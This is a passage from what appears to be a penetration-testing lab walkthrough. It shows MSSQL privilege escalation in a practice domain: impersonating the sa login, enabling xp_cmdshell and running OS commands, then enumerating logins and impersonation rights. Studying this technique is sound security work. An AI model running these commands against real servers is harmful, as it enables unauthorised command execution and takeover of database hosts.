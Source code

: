 - This launch the following commands:
```
execute as login='sa';
exec master.dbo.sp_configure 'show advanced options',1;RECONFIGURE;exec master.dbo.sp_configure 'xp_cmdshell', 1;RECONFIGURE;
exec master..xp_cmdshell 'whoami'
```

- And we get a command execution!

- Let’s continue our enumeration as login **sa** this time:
```
enum_logins
```
![screenshot](pics/mssql_enum_logins2.png)


- As we can see with sa login we see a lot more things. And we can see that jon.snow is sysadmin on the mssql server
    
- Let’s see if there is others impersonation privileges:
```
enum_impersonate
```    
![screenshot](pics/mssql_enum_impersonate2.png)

- As sysadmin user (sa), we can see all the information in the database and so the others users with impersonation privileges.
- Another way to get in could be to access as brandon.stark and do `execute as login` on user jon.snow.
